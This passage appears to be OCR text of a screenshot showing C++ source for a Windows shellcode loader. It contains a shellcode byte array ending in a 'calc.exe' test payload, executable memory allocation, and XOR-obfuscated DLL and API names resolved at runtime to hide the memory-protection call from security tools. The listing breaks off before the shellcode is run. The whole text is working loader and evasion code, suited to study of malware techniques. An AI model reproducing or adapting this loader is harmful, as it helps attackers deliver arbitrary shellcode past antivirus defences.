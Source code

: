 ```cpp
0xEC,0x20,0x41,0x52,0xFF,0xE0,0x58,0x41,0x59,0x5A,0x48,0x8B,0x12,0xE9,0x57,0xFF,0xFF,0xFF,0x5D,0x48,0xBA,0x01,0x00,
0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8D,0x8D,0x01,0x01,0x00,0x00,0x41,0xBA,0x31,0x8B,0x6F,0x87,0xFF,0xD5,0xBB,0xF0,
0xB5,0xA2,0x56,0x41,0xBA,0xA6,0x95,0xBD,0x9D,0xFF,0xD5,0x48,0x83,0xC4,0x28,0x3C,0x06,0x7C,0x0A,0x80,0xFB,0xE0,0x75,
0x05,0xBB,0x47,0x13,0x72,0x6F,0x6A,0x00,0x59,0x41,0x89,0xDA,0xFF,0xD5,0x63,0x61,0x6C,0x63,0x2E,0x65,0x78,0x65,0x00 };

unsigned int shellcode_len = sizeof(shellcode);

BOOL(WINAPI  *HideProtect)(LPVOID lpAddress, SIZE_T dwSize, DWORD  flNewProtect, PDWORD lpflOldProtect);


// XOR decryption stub
void XOR(char * data, size_t data_len, char * key, size_t key_len) {
	int j;
	
	j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1) j = 0;

		data[i] = data[i] ^ key[j];
		j++;
	}
}



int main() {
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    // XOR decrypt key
	char key[] = "RHRHSDHSFR";

	// the XOR string for obfuscated function name
	char function_name[]={0x4, 0x21, 0x20, 0x3c, 0x26, 0x25, 0x24, 0x3, 0x34, 0x3d, 0x26, 0x2d, 0x31, 0x3c,0x00};
	char dll_name[]={0x39, 0x2d, 0x20, 0x26, 0x36, 0x28, 0x7b, 0x61, 0x68, 0x36, 0x3e, 0x24,0x00 };

    // Allocate memory for shellcode in current process address space
    void* exec_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy shellcode to allocated memory
    RtlMoveMemory(exec_mem, shellcode, shellcode_len);

    // decrypt function and dll name
    XOR((char *) function_name, strlen(function_name), key, sizeof(key));
    XOR((char *) dll_name, strlen(dll_name), key, sizeof(key));
    //printf("%s\n",function_name);
    //printf("%s",dll_name);
    
    // point to the address of VirtualProtect
    HideProtect = GetProcAddress(GetModuleHandle(dll_name), function_name);


    // call VirtualProtect with HideProtect
    rv = HideProtect(exec_mem, shellcode_len, PAGE_EXECUTE_READ, &oldprotect);

```